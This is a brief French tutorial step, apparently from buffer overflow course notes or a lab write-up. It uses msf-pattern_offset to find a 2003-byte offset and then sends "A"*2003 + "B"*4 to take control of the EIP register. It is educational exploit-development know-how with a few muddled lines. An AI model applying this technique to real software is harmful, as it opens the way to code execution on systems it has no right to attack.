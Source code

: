 # Overwriting the EIP

On utilise la valeur retourner par l'offset

```sh
msf-pattern_offset -l 3000 -q {386F4337}
```

=> 2003

> Donc nous avons 2003 bytes avant d'arriver a l'EIP et l'EIP lui meme est de 4 octect de long

donc il nous faut 2003 bytes pour atteindre L'EIP et 2003 fait (4 octes)

> Donc nous allons essayer d'ecraser ses 4 octects specifiquement.

"A" * 2003 + "B" * 4
donc B - 4 est l'EIP que nous controllons et B en ASCII est: 42424242
si l'EIP vaut cette valeur alors nous avons reussir a ecraser l'EIP et le controllons totalement